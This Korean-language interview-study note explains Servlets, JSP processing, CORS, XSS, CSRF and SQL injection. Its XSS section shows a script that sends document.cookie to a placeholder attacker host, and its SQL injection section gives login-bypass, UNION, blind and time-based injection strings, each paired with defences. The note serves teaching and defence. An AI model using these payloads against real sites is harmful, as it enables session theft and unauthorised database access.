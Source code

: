 ## Servlet이란 어떤 것인지

<details>
<summary>생각해보고 답 확인</summary>

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/de3307b6-2fa2-411d-93e8-eaa763f1b98e" width="550" height="300"/>

 - 동적 웹 페이지를 만들 때 사용되는 자바 기반의 웹 애플리케이션 프로그래밍 기술이다. 
 
 - 서블릿은 웹 요청과 응답의 흐름을 간단한 메서드 호출만으로 체계적으로 다룰 수 있게 해준다.

   ※ 서블릿은 서버에서 실행되다가 웹 브라우저에서 요청을 하면 해당 기능을 수행한 후 웹 브라우저에 결과를 전송한다.

▶ 서블릿(Servlet)의 주요 특징
- 클라이언트의 Request에 대해 동적으로 작동하는 웹 어플리케이션 컴포넌트
- 기존의 정적 웹 프로그램의 문제점을 보완하여 동적인 여러 가지 기능을 제공
- JAVA의 스레드를 이용하여 동작
- MVC패턴에서 컨트롤러로 이용됨
- 컨테이너에서 실행
- 보안 기능을 적용하기 쉬움


### 2. 서블릿의 동작과정

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/99135836-2f0e-4c04-b1a7-5eaf65f6b423" width="550" height="300"/>

클라이언트가 웹 서버에 요청하면 / 웹 서버는 그 요청을 톰캣과 같은 [WAS]에 위임한다. / 그러면 WAS는 각 요청에 해당하는 서블릿을 실행한다. / 그리고 서블릿은 요청에 대한 기능을 수행한 후 결과를 반환하여 클라이언트에 전송한다.

```
1. 클라이언트 요청
2. HttpServletRequest, HttpServletResponse 객체 생성
3. Web.xml이 어느 서블릿에 대해 요청한 것인지 탐색
4. 해당하는 서블릿에서 service() 메소드 호출
5. doGet() 또는 doPost() 호출
6. 동적 페이지 생성 후 ServletResponse 객체에 응답 전송
7. HttpServletRequest, HttpServletResponse 객체 소멸
```

※ web.xml : 서블릿을 작성했다면 / 해당 서블릿을 사용자가 요청한 경로와 맵핑시켜야 / WAS에서 맵핑된 정보를 읽어서 브라우저에서 해당 URL로 HTTP요청 시 / 해당 서블릿으로 요청을 전달해 줄 수 있다. 소스를 분석할 때도 가장 먼저 확인해봐야 할 부분이다. 톰캣을 예로 들면 웹 어플리케이션 서비스 처리에 대해 정의된 환경 설정 파일이 server디렉터리의 web.xml에 있다.

### ▶ 서블릿 형식

```java
public class FirstServlet extends HttpServlet {
	@Override
    public void init() {
    ...
	}

    @Override
    public void doGet(HttpServletRequest req, HttpServletResponse resp) {
    ...
    }

    @Override
    public void destroy() {
    ...
    }
}
```

### 3. 서블릿 생명주기

서블릿도 자바 클래스이므로 실행하면 [ 초기화부터 서비스 수행 후 소멸하기까지의 과정을 거친다.] 

이 과정을 서블릿의 생명주기라하며 각 단계마다 **호출되어 기능을 수행하는 콜백 메서드**를 서블릿 생명주기 메서드라한다.

1. 클라이언트의 요청이 들어오면  / 컨테이너는 해당 서블릿이 메모리에 있는지 확인하고, 없을 경우 init()메서드를 호출하여 메모리에 적재한다. init()은 처음 한번만 실행되기 때문에, 서블릿의 스레드에서 공통적으로 사용해야 하는 것이 있다면 오버라이딩 하여 구현하면 된다. 실행 중 서블릿이 변경될 경우, 기존 서블릿을 destroy()하고 init()을 통해 새로운 내용을 다시 메모리에 적재한다.

2. init()이 호출된 후 클라이언트의 요청에 따라서 service() 메소드를 통해 요청에 대한 응답이 doGet()과 doPost()로 분기된다. 이 때 서블릿 컨테이너가 클라이언트의 요청이 오면 가장 먼저 처리하는 과정으로 생성된 HttpServletRequest, HttpServleResponse에 의해 request와 response 객체가 제공된다.

3. 컨테이너가 서블릿에 종료 요청을 하면 destroy() 메소드가 호출되는데 마찬가지로 한번만 실행되며, 종료시에 처리해야 하는 작업들은 destroy() 메소드를 오버라이딩하여 구현하면 된다.

### ▶ 서블릿 생명주기 < 메서드 >

**초기화 : init()**

- 서블릿 요청 시 맨 처음 한 번만 호출된다.
- 서블릿 생성 시 초기화 작업을 주로 수행한다.

**작업 수행 : doGet(), doPost()**

- 서블릿 요청 시 매번 호출된다.
- 실제로 클라이언트가 요청하는 작업을 수행한다.

**종료 : destroy()**

- 서블릿이 기능을 수행하고 메모리에서 소멸될 때 호출된다.
- 서블릿의 마무리 작업을 주로 수행한다.

### 4. 서블릿 컨테이너

- 서블릿 컨테이너란, 구현되어 있는 servlet 클래스의 규칙에 맞게 서블릿을 담고 관리해주는 컨테이너다.

- 클라이언트에서 요청을 하면 컨테이너는 HttpServletRequest, HttpServletResponse 두 객체를 생성하여 post, get여부에 따라 동적인 페이지를 생성하여 응답을 보낸다.

</details>

### Servlet에서 리퀘스트(요청)를 받으면 서블릿에 있는 어떤 메서드들이 호출되는지 설명하라 

### Servlet의 생명주기에 대해 설명하라 

### Servlet이 호출될 때 처리 과정이 어떻게 되는가? 

### JSP 동작 과정에서 Servlet이 어떻게 사용되는지 설명하라. 

### JSP 처리 과정

<details>
<summary>생각해보고 답 확인</summary>

웹 브라우저에 JSP 페이지에 해당하는 URL을 입력하면, 톰캣 서버는 다음과 같은 과정을 거쳐 JSP 페이지를 실행한다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/6cfb71bc-5c98-4d58-a7e7-cef9c28af427" width="550" height="300"/>


WAS는 JSP 페이지에 대한 요청이 들어오면 다음과 같은 처리를 한다.

JSP에 해당하는 서블릿이 존재하지 않을 경우(과정 1.1)

- JSP 페이지로부터 자바 코드를 생성한다. (과정 1.2)
- 자바 코드를 컴파일해서 서블릿 클래스를 생성한다. (과정 1.3)
- 서블릿에 클라이언트 요청을 전달한다. (과정 2.1)
- 서블릿이 요청을 처리한 결과를 응답으로 생성한다. (과정 2.2)
- 응답을 웹 브라우저에 전송한다. (과정 3)

JSP에 해당하는 서블릿이 존재하는 경우(즉, 이미 과정 1.1~1.3을 거친 경우)

- 서블릿에 클라이언트 요청을 전달한다. (과정 2.1)
- 서블릿이 요청을 처리한 결과를 응답으로 생성한다. (과정 2.2)
- 응답을 웹 브라우저에 전송한다. (과정 3)

즉, JSP 페이지를 요청할 때에는 JSP를 직접 실행하는 것이 아니라, JSP를 자바 소스 코드로 변환한 뒤 컴파일해서 생성한 서블릿을 생성하는 것이다. 여기서 JSP 페이지를 자바 코드로 변경하는 단계를 "변환(translation)단계"(과정 1.2)라고 하며, 자바 코드를 서블릿 클래스로 변경하는 단계를 "컴파일(compile)단계"(과정 1.3)라고 한다.

톰캣은 work 폴더에 JSP를 변환한 자바 소스 코드와 서블릿 클래스를 생성한다. 예를 들어, 앞서 3장에서 실행했던 JSP의 자바 소스 코드와 서블릿 클래스는 다음 폴더에서 찾을 수 있다.

```
C:\apache-tomcat-8.0.2\work\Catalina\localhost\chap03\org\apache\jsp
```

위 폴더를 보면 JSP 파일을 자바 코드로 변환한 소스 코드와 컴파일된 클래스 파일을 발견할 수 있다.

JSP 페이지를 변경하면 JSP 페이지는 기존에 이미 서블릿이 생성되었는지에 상관없이 위의 과정을 거쳐 JSP 페이지로부터 서블릿 클래스를 다시 생성한다.

> JSP를 실행한다는 말은 곧 JSP 페이지를 컴파일한 결과인 서블릿 클래스를 실행한다는 의미가 된다.
>

</details>





## CORS란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- 브라우저 환경에서만 적용되며 한 출처가 다른 출처에 요청을 할 수 있도록 하는 보안 메커니즘

- 모든 브라우저는 단일 출처 정책(Single Origin Policy)을 따른다

- 즉, 기본적으로 다른 출처에 요청할 수 없지만 서버가 적절하게 구성된 CORS 헤더를 제공하는 경우 선택적으로 교차 출처 정책을 사용할 수 있습니다.

 ### 브라우저에서만 적용된다는 말은 무슨 말인가?
 
- 브라우저에서 다른 서버에서 요청할 경우에 해당되고, 브라우저를 거치지 않고 **서버 간 통신**을 할 때는 이 정책이 적용되지 않는다.

### 단일 출처 정책(Single Origin Policy)이 무엇인가?

- **origin(출처)** 이란 scheme(protocol), host(domain), port 로 구성

- 예를들어, https://www.google.com/maps 라는 주소가 있다고하면 [ protocol은 https:// ] [ Host는 www.google.com ] [ Port는 :443 ]

- 동일 출처(Same Origin) 란 scheme, host, port 가 모두 같을때를 말한다.

- SOP(Same-Origin Policy) 이란 같은 출처에서만 리소스를 공유할 수 있다는 규칙

### 다른 origin에 있는 리소스를 허용하지 않는 이유는 무엇인가?

- ( = 이런 정책이 왜 존재할까?) 만약 다른 출처의 어플리케이션이 서로 통신하는 것에 대해 아무런 제약도 존재하지 않는다면 악의를 가진 사용자가 소스 코드를 보고 CSRF(Cross-Site Request Forgery)나 XSS(Cross-Site Scripting)와 같은 방법을 사용하여 정보를 탈취할 수 있다.

- CORS는 다른 출처의 리소스가 필요한 경우, SOP를 우회하기 위한 여러가지 방법 중 가장 권장되는 방법이다.

### **5. 브라우저의 CORS 동작원리**

1. 브라우저는 요청 헤더에 Origin이라는 필드에 본인 출처를 넣어서 보낸다.`(cookie를 사용하는 보안과 관련된 것은 credentials 헤더를 true로 보내줘야 한다.)`
2. 서버는 응답 헤더에 Access-Control-Allow-Origin에 본인이 허용하는 출처를 담아서 응답하게 된다.`(cookie와 같은 보안과 관련된 것은 Access-Control-Allow-Credentials를 true로 응답해야 한다.)`
3. 브라우저는 Origin과 Access-Control-Allow-Origin을 비교하고, 맞는지 틀린지 검사만 한다.
4. 맞으면 그대로 응답을 사용하고, 틀리다면 에러를 뱉고 응답을 버린다.

### **6. Simple Request**

위에서 설명한 CORS의 동작 원리는 GET, POST와 같은 일정 조건의 요청들에 사용된다.

이것을 simple request라고 한다. 

### **6.1. Preflight 요청**

하지만 delete, put고 같은 것들은 기존 데이터에 영향을 주는 것이기 때문에

request 전에 Preflight 요청이란걸 먼저 보내서 본 요청이 안전한지 확인하고, 이상이 없다면 요청을 보낼 수 있다.

아무래도 PUT, DELETE와 같이 서버의 데이터에 영향을 주는 행위는 위험하기 때문에

사전 요청을 하는 것인데 서버에게 해당 request origin에 DELETE를 허용할 것인지 묻는 것이다.

GET같은 경우는 데이터에 영향이 없기 때문에 응답을 버리기만 하면 되는데 DELETE를 데이터를 변경해버리기 때문이다.

https://chanto11.tistory.com/67

https://ingg.dev/cors/

</details>




------
## XSS란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- 공격자가 클라이언트 측 스크립트를 웹 페이지에 삽입하는 공격

- XSS 를 사용하여 동일 출처 정책 및 CSRF 보호를 모두 우회 할 수 있습니다.

- 사용자가 웹 사이트를 방문 할 때마다 트리거되고 이는 서버를 손상시킬 수 있습니다.

- XSS 는 가장 일반적으로 악용되는 취약점입니다.

- XSS 는 출력부분에서 가장 잘 처리할 수 있습니다.

[ 입력 -> 데이터베이스 -> **출력(이스케이프 처리)** ]

### esacpe를 처리한다 라는 말을 들어보았는가? 이게 어떤걸 말하는가?

특정 문자를 원래의 기능에서 벗어나게 변환하는 행위를 **이스케이프(Escape)** 라고 한다.

 HTML에서 다음과 같은 상황은 렌더링이 되지 않는다.  ->  <div>  <onlydev     </div> 
  
HTML은 '<'을 태그의 시작으로 인식하기 때문에 뒷부분이 에러가 나서 제대로 렌더링이 되지 않는다. 이런 상황들을 고려해 원래의 기능에서 벗어난 문자열로 변환하여 의도대로 구문 분석을 하도록 이스케이프를 한다.     ->  <div>     &lt;onlydev      </div>

**그런데 이스케이프가 어떻게 XSS 공격을 방지할 수 있을까?** 

크로스 사이트 스크립팅 공격은 블로그나 게시판 같은 서비스에서 주로 일어나며 여러 사람들이 보는 글에 **스크립트**를 주입해서 사용자의 정보(쿠키, 세션)를 탈취하거나 비정상적인 기능을 수행하게 한다.

예를 들어 글을 쓸 때

1. 제목과 글을 입력해서 글쓰기를 클릭하면
2. 웹 서버에선 해당 데이터를 받아서 DB에 저장한다.
3. 다른 사용자가 해당 서버에 접속해 DB에 있는 해당 글을 읽게 되면
4. 그 때 써놓은 내용을 볼 수 있다.

이런 과정에서 글 대신 **스크립트 언어**를 써서 다른 사용자가 해당 글을 읽을 때 **스크립트 언어가 실행**되어 피해를 입게 하는 것이 XSS 공격이다.
```
<script>
  let xmlHttp = new XMLHttpRequest();
  const url =
    'http://hackerServer.com?victimCookie=' +
    document.cookie;
  xmlHttp.open('GET', url);
  xmlHttp.send();
</script>
```

해당 스크립트 코드가 실행 되면 피해자의 쿠키값을 해커의 서버 주소인 http://hackerServer.com에 그대로 전부 보내게 되고 해당 정보를 이용해 악용할 수 있는 것이다. 

```
<!-- 이스케이프 후  -->
&lt;script&gt;
  let xmlHttp = new XMLHttpRequest();
  const url =
    &quot;http://hackerServer.com?victimCookie=&quot; +
    document.cookie;
  xmlHttp.open(&quot;GET&quot;, url);
  xmlHttp.send();
&lt;/script&gt;
```

렌더링이 되기 전(사용자에게 보이기 전) 이스케이프된 모든 값은 브라우저에선 아래와 같이 입력한 그대로 보이게 되지만 HTML 본연의 태그나 스크립트 기능이 제거가 되기 때문에 XSS(Cross Site Scripting) 공격을 방지할 수 있다.

```
<!-- 이스케이프 후 브라우저에서 보이는 화면-->
<script>
  let xmlHttp = new XMLHttpRequest();
  const url =
    'http://hackerServer.com?victimCookie=' +
    document.cookie;
  xmlHttp.open('GET', url);
  xmlHttp.send();
</script>
```

https://wikidocs.net/127508

https://onlydev.tistory.com/78

### **■ 공격 유형에 따른 분류**

공격자가 삽입한 악성스크립트가 사용자 측에서 어떻게 동작하는지에 따라 크게 세 가지로 분류할 수 있으며 각각의 개념과 동작 과정은 다음과 같다.


### **Stored XSS (저장형 크로스사이트 스크립팅)**

공격자의 악성스크립트가 데이터베이스에 저장되고 이 값을 출력하는 페이지에서 피해가 발생하는 취약점이다.

공격자는 악성스크립트가 포함된 게시물을 작성하여 게시판 등 사용자가 접근할 수 있는 페이지에 업로드한다. 이때 사용자가 악성스크립트가 포함된 게시물을 요청하면, 공격자가 삽입한 악성스크립트가 사용자 측에서 동작하게 된다.

공격자의 악성스크립트가 서버에 저장되어 불특정 다수를 대상으로 공격에 이용될 수 있어 Reflected XSS보다 공격 대상의 범위가 훨씬 크다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/68792e47-656d-47ff-b529-9e0f6f6b4777" width="500" height="300"/>
  
[Stored XSS]

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/46b79afb-568a-4364-926d-5479bb3ff3da" width="400" height="300"/>

Stored XSS 공격 과정은 다음을 통해 확인할 수 있다.

[Stored XSS 공격 과정]


### **Reflected XSS (반사형 크로스사이트 스크립팅)**

사용자가 요청한 악성스크립트가 사용자 측에서 반사(Reflected)되어 동작하는 취약점으로, 공격자의 악성스크립트가 데이터베이스와 같은 저장소에 별도로 저장되지 않고 사용자의 화면에 즉시 출력되면서 피해가 발생한다.

공격자는 악성스크립트가 포함된 URL을 이메일, 메신저 등을 통해 사용자가 클릭할 수 있도록 유도한다. 사용자가 악성스크립트가 삽입된 URL을 클릭하거나 공격자에 의해 악의적으로 조작된 게시물을 클릭했을 때 사용자의 브라우저에서 악성스크립트가 실행된다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/7fd0cd4a-127f-4e92-b672-735dd669aaf4" width="500" height="300"/>


[Reflected XSS]

Reflected XSS 공격 과정은 다음을 통해 확인할 수 있다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/fada8137-1912-4d96-8d54-44b8f244752b" width="400" height="300"/>

[Reflected XSS 공격 과정]


### **DOM Based XSS (DOM 기반 크로스사이트 스크립팅)**

공격자의 악성스크립트가 DOM 영역에서 실행됨으로써 서버와의 상호작용 없이 브라우저 자체에서 악성스크립트가 실행되는 취약점이다. DOM 영역에 변화가 생기면 브라우저는 서버로 패킷을 보내지 않고 DOM 영역에서 페이지를 변환시킨다. 따라서 DOM의 일부로 실행되기 때문에 브라우저 자체에서 악성스크립트가 실행된다.

- DOM(Document Object Model, 문서 객체 모델) 이란?

브라우저가 웹 페이지를 렌더링 하는데 사용하는 모델로 HTML 및 XML 문서에 접근하기 위한 인터페이스이다. 브라우저는 HTML 문서를 읽고 해석한 결과를 DOM 형태로 재구성하여 사용자에게 제공한다.

</details>


------
## CSRF란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- 사용자가 자신의 의지와 무관하게 공격자가 의도한 행동을 해서 특정 웹 페이지를 보안에 취약하게 하거나 수정, 삭제 등의 작업을 하게 만드는 공격 방법.

- 공격 난이도가 높지 않아 흔히 사용된다.

- XSS을 이용한 공격이 사용자가 특정 웹사이트를 신용하는 점을 노린 것이라면,

- CSRF는 특정 웹사이트가 사용자의 웹 브라우저를 신용하는 상태를 노린 것이다.

https://devscb.tistory.com/123

### **1.2. CSRF 전제 조건과 공격 과정**

CSRF 공격을 위한 조건과 과정에 대해 알아보겠습니다. CSRF 공격을 시도하기 위해선 아래와 같은 몇 가지 조건이 필요합니다.

- 사용자가 보안이 취약한 서버로부터 이미 인증을 받은 상태여야 합니다.
- 쿠키 기반으로 서버 세션 정보를 획득할 수 있어야 합니다.
- 공격자는 서버를 공격하기 위한 요청 방법에 대해 미리 파악하고 있어야 합니다. 예상치 못한 파라미터가 있으면 불가능합니다.

위와 같은 조건이 만족되면 다음과 같은 과정을 통해 CSRF 공격이 수행됩니다.

1. 사용자는 보안이 취약한 서버에 로그인합니다.
2. 로그인 이후 서버에 저장된 세션 정보를 사용할 수 있는 `sessionID`가 사용자 브라우저 쿠키에 저장됩니다.
3. 공격자는 서버에 인증된 브라우저의 사용자가 악성 스크립트 페이지를 누르도록 유도합니다.
    - 해당 악성 스크립트가 담긴 페이지를 클릭하도록 유도하는 방법은 다양한 것 같으나 몇 가지 유형을 정리하자면 다음과 같습니다.
    - 게시판에 악성 스크립트를 게시글로 작성하여 관리자 혹은 다른 사용자들이 게시글을 클릭하도록 유도합니다.
    - 메일 등으로 악성 스크립트를 직접 전달하거나, 악성 스크립트가 적힌 페이지 링크를 전달합니다.
4. 사용자가 악성 스크립트가 작성된 페이지 접근시 쿠키에 저장된 `sessionID`는 브라우저에 의해 자동적으로 함께 서버로 요청됩니다.
5. 서버는 쿠키에 담긴 `sessionID`를 통해 해당 요청이 인증된 사용자로부터 온 것으로 판단하고 처리합니다.

### CSRF를 방어하는 방법이 무엇이 있는지 설명하라

**Referrer 검증**

서버에서 사용자의 요청에 `Referrer` 정보를 확인하는 방법이 있습니다. 요청 헤더(request header) 정보에서 `Referrer` 정보를 확인할 수 있습니다. 보통이라면 호스트(host)와 `Referrer` 값이 일치하므로 둘을 비교합니다. CSRF 공격의 대부분 `Referrer` 값에 대한 검증만으로 방어가 가능하다고 합니다.

 **CSRF 토큰 검증**

임의의 CSRF 토큰을 만들어 세션에 저장합니다. 요청하는 페이지에 `hidden` 타입 input 태그를 이용해 토큰 값을 함께 전달합니다. 이후 서버에서 세션에 저장된 CSRF 토큰 값과 요청 파라미터에 담긴 토큰 값을 비교합니다

 **Double Submit Cookie 검증**

브라우저의 `Same Origin 정책`을 이용합니다. `Same Origin`이 아닌 경우 `JavaScript`로 쿠키 값을 확인하거나 수정하지 못한다는 점을 이용한 검증 방법입니다. 클라이언트(브라우저)에서 `JavaScript`로 임의의 생성한 토큰을 쿠키와 요청 헤더에 각각 담아서 서버에게 전달합니다. 서버는 전달받은 쿠키와 요청 헤더에서 각자 토큰 값을 꺼내어 이를 비교합니다. 이때, 쿠키에 저장된 토큰 정보는 이후에 재사용하지 못하도록 만료 처리합니다.

</details>




------
## SQL Injection이란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

# SQL Injection(SQL 인젝션, SQL 삽입)이란 ?

악의적인 사용자가 응용 프로그램 보안 상의 **허점**을 의도적으로 이용해, 

악의적인 SQL문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도록 조작하는 행위입니다.

주로 사용자가 입력한 데이터를 제대로 **필터링**, **이스케이핑**하지 못했을 경우에 발생합니다. 

이러한 injection 계열의 취약점들은 테스트를 통해 발견하기는 힘들지만 **스캐닝툴**이나 **코드 검증절차**를 거치면 보통 쉽게 발견되기 때문에 탐지하기는 쉬운 편입니다.

인젝션 공격은 OWASP에서도 1순위로 분류되었던 만큼 공격이 성공할 경우 큰 피해를 입힐 수 있어 보안에 각별한 주의가 필요합니다.

# 공격 종류 및 방법

## 1 ) Error based SQL Injection (가장 대중적인 기법)

 SQL 쿼리에 **고의적으로 오류를 발생**시키고 / 이때 출력되는 에러의 내용으로 **필요한 정보를 찾아내는 공격 기법**

기본적으로 '(싱글 쿼테이션) 또는 "(더블 쿼테이션)을 이용하여 GET, POST 요청 필드나 HTTP 헤더 값, 쿠키값 등에 삽입하여 **SQL 에러를 통해 정보를 예상**하게 됩니다. GROUP BY나 HAVING 등을 이용하기도 합니다.

### 로그인 공격 예시

로그인 페이지가 있고, 로그인을 할 때 USER_ID와 INPUT_PW를 입력받아 로그인이 진행된다고 했을 때

- 기본 쿼리문

```sql
SELECT user FROM Users WHERE uid = 'USRE_ID' AND upw = 'INPUT_PW';
```

- 공격 예시 : 로그인 창의 ID 부분에 'OR 1 = 1 --를 입력합니다.

```sql
SELECT user FROM Users WHERE uid = '' OR 1 = 1 --USRE_ID' AND upw = 'INPUT_PW';
```

- WHERE절에 있는 싱글 쿼터를 닫아주게 되고,
- OR 1 = 1로 모두 참을 만들어 준 후
- -를 이용해 그 뒤의 모든 쿼리문을 주석처리해주게 됩니다.

결과적으로 Users 테이블에 있는 모든 정보를 조회하게 되며 가장 먼저 만들어진 계정(보통 관리자 계정)으로 로그인할 수 있게 되어 관리자 계정을 탈취하게 됩니다.

## 2 ) Union base SQL Injection

UNION 키워드를 사용하여 원래의 요청에 추가 정보를 얻는 공격 기법으로 UNION 하려는 두 테이블의 컬럼 수와 데이터 형식이 같아야 합니다. 

ORDER BY 절이나 HAVING을 이용한 오류 메시지를 통해 컬럼의 수를 유추할 수 있습니다.

### 게시글 조회 공격 예시

게시판이 있고, 게시글을 검색할 때 INPUT을 받아 검색이 진행된다고 했을 때

- 기본 쿼리문

```sql
SELECT * FROM Board WHERE title LIKE '%INPUT%' OR contents '%INPUT%'
```

- 공격 예시 : 검색 창에 'UNION SELECT null, id, passwd FROM User를 -- 입력합니다.

```sql
SELECT * FROM Board WHERE title LIKE '%' UNION SELECT null, id, passwd FROM Users --%' OR contents '%INPUT%'
```

사전 공격을 통해 컬럼명과 테이블명을 얻은 후 사용자의 ID와 PW를 요청하는 쿼리문을 함께 입력하게 되면 사용자의 개인 정보가 게시글과 함께 보이게 됩니다.

## 3) Blind SQL Injection

에러가 발생되지 않는 사이트에서 데이터 베이스로부터 특정한 값이나 데이터를 전달받지 않고, 단순히 **참과 거짓의 정보만 알 수 있을 때 사용하는 공격 기법**입니다.

 limit, SUBSTR, ASCII를 사용해서 조건이 참이면 페이지가 정상적으로 출력되고 그렇지 않을 경우 출력되지 않음으로 구분이 가능합니다.

최근에는 에러 메시지를 출력하지 않는 웹 서버를 구축하고 있어 주로 사용하는 방식입니다.

### Boolean 기반 공격 예시

- 기본 쿼리문

```sql
SELECT user FROM Users WHERE uid = 'USRE_ID' AND upw = 'INPUT_PW';
```

- 공격 예시 : 로그인 폼에 DB 테이블 명을 알아내기 위한 쿼리문을 주입, 이때 임의로 가입한 idd3이라는 아이디와 함께 구문을 주입합니다.

```sql
SELECT * FROM Users WHERE uid = 'idd3' and ASCII(SUBSTR((SELECT name FROM information_schema.tables WHERE table_type='base table' limit 0,1),1,1)) > 100 -- USRE_ID' AND upw = 'INPUT_PW';
```

- limit키워드를 통해 하나의 테이블만 조회하고, SUBSTR함수로 첫 글자만 찾게 됩니다.
- ASCII를 통해 값이 변환되고 조회되는 테이블 명의 첫 번째 글자가 U면 테이블이 조회됩니다.
- 참(로그인)이 될 때까지 100 숫자를 변경하며 비교를 하게 됩니다.
- 자동화 스크립트로 만들어 단기간 내에 테이블 명을 알아낼 수도 있습니다.

### Time 기반 공격 예시

- 기본 쿼리문

```sql
SELECT user FROM Users WHERE uid = 'USRE_ID' AND upw = 'INPUT_PW';
```

- 공격 예시

```sql
SELECT user FROM Users WHERE uid = 'idd3' OR (LENGTH(DATABASE())=1 AND SLEEP(2)) -- USRE_ID' AND upw = 'INPUT_PW';
```

- 숫자 1을 조작해 현재 사용하고 있는 데이터 베이스의 길이를 알아낼 수 있습니다.
- LENGTH를 사용해 문자열 길이를 반환하도록 합니다.
- DATABASE()를 사용해 데이터베이스의 이름을 반환합니다.

SLEEP단어가 치환 처리되었을 경우, BENCHMARK나 WAIT함수를 사용할 수 있습니다.

## 4 ) Stored Procedure based SQL Injection

저장 프로시저(Stored Procedure)는 쿼리들을 모아 하나의 함수처럼 사용하기 위한 것입니다.

웹에서 저장 프로시저에 대한 접근 권한을 가짐으로써 실행이 가능해집니다. 

공격 난도가 높으나 성공 시 직접적인 피해를 입힐 수 있는 공격 기법입니다.

## 5) Mass SQL Injection

한 번의 공격으로 다량의 DB가 조작해 큰 피해를 입히는 공격 기법입니다.

# 대응 방안

### 1 ) 입력값 검증

사용자의 입력을 받을 때 검증 로직을 추가하여 값이 유효한지 검증합니다.

- ', ", #, --, = 등 특수문자와 명령어 필터링
- 데이터 길이 제한

### 2 ) 저장 프로시저 사용

동적 SQL 쿼리를 생성하지 않는 것이 SQL 인젝션을 막기 위한 가장 효과적인 방법일 것입니다. 저장 프로시저를 사용하여 지정된 형식의 데이터가 아니면 쿼리가 실행되지 않도록 합니다.

### 3 ) 서버 보안

- 데이터 베이스 권한 제한합니다.
- 신뢰 가능한 네트워크와 서버에 대해서만 접근을 허용합니다.
- SQL 서버 오류 발생 시, 해당하는 에러 메시지를 볼 수 없도록 합니다.

</details>
